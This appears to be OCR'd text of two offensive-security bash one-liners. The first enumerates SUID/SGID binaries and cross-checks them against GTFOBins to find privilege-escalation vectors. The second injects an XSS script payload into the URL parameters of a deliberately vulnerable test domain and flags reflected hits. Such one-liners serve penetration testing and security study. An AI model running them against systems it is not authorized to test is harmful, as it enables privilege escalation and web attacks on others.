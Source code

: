 Oneliner for searching SUID/SGID binaries, filtered and correlated with GTFOBins to identify privilege escalation vectors.
```bash
find / -perm /6000 -type f 2>/dev/null | awk 'BEGIN{while(( "curl -s https://gtfobins.github.io/"|getline l)>0){if(match(l,/\/gtfobins\/([^\/]+)\//,m))g[m[1]]=1}close("curl -s https://gtfobins.github.io/")} {p=$0;n=p;sub(/^.*\//,"",n);if(n in g)print "[MATCH] "p}' | tree --fromfile -C
```

Oneliner for searching XSS Poc #1
```bash
domain="testphp.vulnweb.com" && payload="<script>confirm('xss')</script>" && gauu "$domain" --threads 5 | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "$payload" | while read host; do curl -s --path-as-is --insecure "$host" | grep -qs "$payload" && echo -e "$host \033[0;31mVulnerable"; done
```
